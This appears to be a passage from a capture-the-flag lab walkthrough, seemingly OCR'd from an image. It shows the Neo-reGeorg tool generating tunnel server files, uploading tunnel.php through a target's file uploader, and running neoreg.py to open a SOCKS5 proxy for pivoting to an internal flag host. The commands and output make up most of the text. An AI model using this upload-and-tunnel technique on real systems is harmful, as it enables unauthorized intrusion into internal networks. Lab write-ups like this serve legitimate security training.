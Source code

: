 ```bash


    [ Github ] https://github.com/L-codes/neoreg

    [+] Mkdir a directory: neoreg_servers
    [+] Create neoreg server files:
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
```

+ Upload the file `tunnel.php` on url `http://10.10.223.157/uploader/index.php` and start server on the attackbox
```bash
root@ip-10-10-251-99:/opt/Neo-reGeorg# python3 neoreg.py -k thm -u http://10.10.223.157/uploader/files/tunnel.php


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting SOCKS5 server [127.0.0.1:1080]
  Tunnel at:
    http://10.10.223.157/uploader/files/tunnel.php
+------------------------------------------------------------------------+
```
+ After our server tunneling then browse the ip for the webserver `http://flag.thm.com/flag` by using ping
```bash
thm@web-thm:~$ ping flag.thm.com
PING flag.thm.com (172.20.0.120) 56(84) bytes of data.
```
